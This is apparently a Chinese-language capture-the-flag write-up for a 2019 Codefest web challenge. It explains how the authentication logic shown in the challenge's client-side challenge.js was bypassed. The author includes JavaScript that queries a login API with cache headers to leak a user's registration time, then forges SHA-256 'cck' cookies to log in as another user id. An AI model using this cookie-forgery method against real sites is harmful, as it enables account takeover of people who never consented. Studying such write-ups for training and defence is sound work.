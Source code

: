 難度 :  :star::star:
  
![question](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic1.png)
![question2](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic2.png)
![question3](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic3.png)
![question4](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic4.png)
![question5](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic5.png)

解題流程: <br>
        很簡潔的網頁, 只有登入和註冊, 登入後什麼東西都沒有 <br>
        用 sqlmap 和 xss 都沒有結果, 只能開始看看前端的 code <br>
        發現它引入一個客製化的 challenge.js <br>
        ![bug](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/bug.png)
        進去一看發現是認證的 code , 認證 code 寫在前端往往不怎麼安全 <br>
        首先, 命名的方式很差所以先[美化](http://www.jsnice.org/)一下
        美化後的結果放在 nice.js <br>
        從 nice.js 得知, 當按下 Log in! 後會去執行 setup
```javascript=
$("#login-form")["submit"]((result) => {
    result["preventDefault"]();
    setUpUserAutosuggest();
  });
```
 setup  會去檢查註冊時間和 cookie 設的是否一樣
 ``` javascript=
 if (data["time"] != val) {
              config["failure"]();
}
```
一樣的話執行 login 否則執行 doLogin <br>
而 login 會檢查 id 和 cck <br>
其中, cck 由 factory 計算而來 <br>
因此, 思緒就清楚了, <b>我們要的是 id cck 和 time</b>
id 可以自行控制 , cck 由 id 和 time 決定 , 因此關鍵在 time <br>
而我們得知 time 會在 setup 被用到, 所以設計自己的 setup 並輸入到 console <br>
```javascript=
function setup(id) {
    $["ajax"]({
          "url" : "api/login/",
          "type" : "POST",
          "headers" : {
            "X-Cache-Command" : "META",
            "X-Cache-User" : id
          },
          "success" : (data) => {
                console.log(data);
            }
    });
}
```
( 什麼都不要檢查, 把接收到的 data 全部吐出來 )<br>
輸入 setup(1), 我們就拿到 time 了 <br>
接著我們透過 _build 幫我們設定 cookie <br>
```javascript=
function factory(spec) {
    var shaObj = new jsSHA("SHA-256", "TEXT");
    var existing = spec["id"] + " 000 114328 000 " + spec["time"];
    shaObj["update"](existing);
    var KongPluginsService = shaObj["getHash"]("HEX");
    return KongPluginsService;
}
function _build(value) {
    Cookies["set"]("id", value["id"]);
    Cookies["set"]("time", value["time"]);
    Cookies["set"]("cck", factory(value));
  }
```
因為 _build 會用到 factory 所以 factory 也要一併傳入 <br>
接著, 輸入 _build({"id":"1", "time": "剛剛接收到的"}) <br>
最後, 將 username 也就是 id 輸入 1, 按 Log in! 就能成功進去了 , 但 flag 在 id=6 的身上 <br>